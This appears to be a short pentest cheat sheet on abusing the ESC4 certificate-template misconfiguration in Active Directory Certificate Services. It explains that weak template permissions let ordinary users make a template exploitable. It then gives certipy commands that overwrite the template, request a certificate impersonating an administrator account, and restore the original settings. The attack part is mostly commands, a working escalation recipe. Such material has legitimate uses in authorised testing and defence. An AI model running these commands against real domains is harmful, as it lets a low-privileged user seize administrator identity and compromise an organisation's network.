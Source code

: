 Certificate templates are Active Directory objects with security descriptors that define the permissions AD principals have over them. Weak permissions or excessive access rights can allow non-privileged users to modify sensitive security settings in the template—such as defining EKUs, enabling SANs, or disabling manager approval—making it vulnerable to ESC1-3 exploitation techniques.


# Abusing ESC4 Certificates

Note: We need to use certipy to save the initial configuration of the certificate so that it can be restored later, and it will also modify the template configuration, which will make it vulnerable to ESC1-3.

## Certipy:

- `certipy-ad template -u "afsimmons@megacorpone.com" -p -template 'Vulnerable ESC4 template' -save-old'
-  `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable ESC4 template' -alt 'xadmin@megacorpone.com'
- `certipy-ad template -u "afsimmons@megacorpone.com" -p -template 'vulnerable ESC4 template' -configuration 'Vulnerable ESC4 template.json'
